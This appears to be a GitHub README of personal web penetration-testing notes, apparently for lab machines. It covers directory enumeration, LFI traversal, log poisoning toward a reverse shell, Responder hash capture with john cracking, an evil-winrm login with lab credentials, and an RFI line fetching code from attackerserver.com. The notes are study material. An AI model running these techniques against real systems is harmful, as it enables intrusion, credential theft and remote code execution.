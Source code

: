 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check `/robots.txt` `/sitemap.xml`\
2.`gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f` -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 `wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ` \ 
2.6. Check wappalayzer to check basic info of the page. \
3. `nikto -h $IP`   , `dirb http://IP -r -z 10`
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6. Searchsploit technologies for vulnerabiltieis `nmap -p 80,443  --script=*vuln* $IP`
7. Try directory busting while logged in

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with `?file=index.php ?book=`  (Possible vulnerabilities in source code)
3. book= `../../../../etc/passwd`   (Figure out if the server is hosting on **Window or Apache )
4. `../../../../var/www/html/index.php`  html to confirm log poisoning 
5. Add  `../ ../../../../` and check if the following following files exists.
6. `/etc/passwd`\ `/var/log/mail/USER`\  `/var/log/apache2/access.log`\  `/proc/self/environ`\  `/tmp/sess_ID`\ `/var/lib/php5/sess_ID`\ `/var/log/auth/log`\  
7. `/windows/system32/drivers/etc/hosts` (for **window host**)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, **lets log poision** `../../../../var/log/apache2/access.log` via invalid connection request.
9. Connect to `nc -nv $IP port`.Insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. Check for sucessful log poisioning `../../../../var/log/apache2/access.log&cmd=id`.
11. If you receive command execution, we will insert a reversshell via url encoding. Done. (wrapped and url encode)
12. Use responder to capture. `sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url`. Use john the ripper to match hash. 
13. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
14. login to window .`evil-winrm -i 10.129.147.34 -u Administrator -p badminton`
## RFI
1. Example Vulerable wesbites: `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`
2. Host a server with python `python3 -m http.server 8080` with reverseshell code.
## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --append-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
